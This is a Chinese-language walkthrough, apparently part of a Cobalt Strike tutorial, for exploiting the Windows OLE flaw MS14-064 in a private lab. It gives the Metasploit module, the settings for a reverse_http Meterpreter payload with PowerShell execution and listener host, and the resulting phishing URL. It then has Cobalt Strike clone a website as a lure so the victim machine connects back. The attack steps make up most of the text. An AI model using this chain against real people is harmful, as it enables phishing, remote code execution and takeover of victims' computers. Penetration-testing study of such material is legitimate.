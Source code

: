 ​		

## OLE远程代码执行(MS14-064)

### 简介

Microsoft Windows OLE 远程代码执行漏洞，影响Win95+IE3 - Win10+IE11全版本

通过MSF生成恶意url连接, 配合CS克隆网站进行钓鱼攻击, 然后受害机在CS上线



### 准备环境

| 主机                 | 描述            |
| -------------------- | --------------- |
| 192.168.47.134(kali) | CS服务器        |
| 192.168.47.144(kali) | MSF             |
| 192.168.47.133(win7) | CS客户端,攻击机 |
| 192.168.47.141(win7) | 受害机          |



### 步骤	

在kali上输入`msfconsole`打开metasploit, 再输入`use exploit/windows/browser/ms14_064_ole_code_execution`选择相应模块

然后输入如下命令开始执行攻击, 随后会返回一个url钓鱼连接:`http://192.168.47.144:8080/lCKUuRHyz1`

```
set srvhost 192.168.47.144 //设置msf服务器的ip

set srvport 8080  //设置恶意连接的访问端口

set payload windows/meterpreter/reverse_http  //设置监听协议

set allowpowershellprompt true  //使用powershell执行代码

set lhost 192.168.47.134  //设置监听服务器的ip

set lport 80  //设置监听服务器的端口

run  //开始执行
```

![image-20221007163250674](CobaltStrike的使用教程/image-20221007163250674.png)



在CS生成克隆网站, 攻击选项处填写刚生成的url钓鱼链接, 生成的克隆网站链接为`http://192.168.47.134:80/baidu`

![image-20221007164045381](CobaltStrike的使用教程/image-20221007164045381.png)	
